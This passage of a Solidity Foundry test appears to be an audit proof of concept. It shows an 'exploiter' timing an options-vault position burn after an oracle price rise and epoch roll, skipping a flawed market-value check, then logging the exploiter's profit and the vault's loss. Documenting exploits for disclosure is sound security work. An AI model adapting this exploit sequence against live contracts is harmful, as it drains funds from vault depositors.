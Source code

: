 ```solidity
    // It is critical for the exploiter to wait for current epoch end, so the following line is called in DVP._burn():
    // Amount memory payoff_ = _liquidity[expiry].shareOfPayoff(strike, amount, _baseTokenDecimals);
    // This skips, the IG._getMarketValue() where the issue is present.
    {
        vm.startPrank(admin);
            Utils.skipDay(true, vm);
            // Increase sideToken price by 10%, so the IPriceOracle(_getPriceOracle()).getPrice(sideToken, baseToken)
            // also increases, yielding in a profit for the IG CALL position.
            TestnetPriceOracle(ap.priceOracle()).setTokenPrice(vault.sideToken(), 1.1e18);
            ig.rollEpoch();
        vm.stopPrank();
    }

    // 3. Burn IG position
    {
        uint256 vaultBalanceBeforeBurn = ERC20(baseToken).balanceOf(address(vault));
        uint256 exploiterBalanceBeforeBurn = ERC20(baseToken).balanceOf(exploiter);

        // Burn
        vm.prank(exploiter);
        ig.burn(currentEpoch, exploiter, currentStrikPrice, amountUp, 0, 0, 0);

        uint256 vaultBalanceAfterBurn = ERC20(baseToken).balanceOf(address(vault));
        uint256 exploiterBalanceAfterBurn = ERC20(baseToken).balanceOf(exploiter);
        (uint256 amountBurn, bool strategyBurn, uint256 strikeBurn, uint256 epochBurn) = ig.positions(Position.getID(exploiter, currentStrikPrice));

        console2.log("---------------------------------------------------------");
        console2.log("BURN");
        console2.log("Vault balance BEFORE: ", vaultBalanceBeforeBurn);
        console2.log("Vault balance AFTER: ", vaultBalanceAfterBurn);

        console2.log("Exploiter balance BEFORE: ", exploiterBalanceBeforeBurn);
        console2.log("Exploiter balance AFTER: ", exploiterBalanceAfterBurn);

        console2.log("Exploiter position amount: ", amountBurn);
        console2.log("Exploiter position strategy: ", strategyBurn);
        console2.log("Exploiter position strike: ", strikeBurn);
        console2.log("Exploiter position epoch: ", epochBurn);

        // 4. Calculate profit of exploiter and vault loss
        uint256 exploiterProfit = exploiterBalanceAfterBurn - exploiterBalanceBeforeBurn;
        int256 vaultLoss = int256(vaultBalanceAfterBurn) - int256(vaultBalanceBeforeBurn);

        console2.log("---------------------------------------------------------");
        console2.log("Exploiter profit: ", exploiterProfit);
        console2.log("Vault loss: ", vaultLoss);
    }
}
```
